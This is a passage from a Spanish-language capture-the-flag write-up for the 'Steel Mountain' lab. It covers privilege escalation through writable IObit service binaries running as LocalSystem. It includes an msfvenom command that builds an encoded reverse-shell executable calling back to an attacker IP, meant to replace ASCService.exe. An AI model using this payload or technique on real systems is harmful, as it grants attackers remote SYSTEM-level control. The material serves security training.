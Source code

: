 ```
Check                           : Modifiable Service Files

ServiceName                     : LiveUpdateSvc
Path                            : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
CanRestart                      : False
Name                            : LiveUpdateSvc
Check                           : Modifiable Service Files
```

Nosotros nos quedaremos con este servicio , que no es por defecto de windows y además tenemos permisos con el usuario Bill.

```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```
Lo que vamos a tratar es de cambiar el programa ASCService.exe que es que ejecuta el sistema por uno nuestro malicioso, para obtener una reverse shell con privilegios utilizando un payload que crearemos con msfvenom.

msfvenom -p windows/shell_reverse_tcp LHOST=10.9.8.85 LPORT=4455 -e x86/shikata_ga_nai -f exe -o ASCService.exe

-p -> Indicamos que es un payload
-e -> Indicamos un tipo de codificacion
-f -> Indicamos el formato
-o -> Indicamos la salida (Nombre del archivo)

Lo subimos a la maquina objetivo con el comando "upload" como antes y lo movemos a su carpeta donde se va a ejecutar.

![](/assets/images/thm-steelmountain/15.JPG)
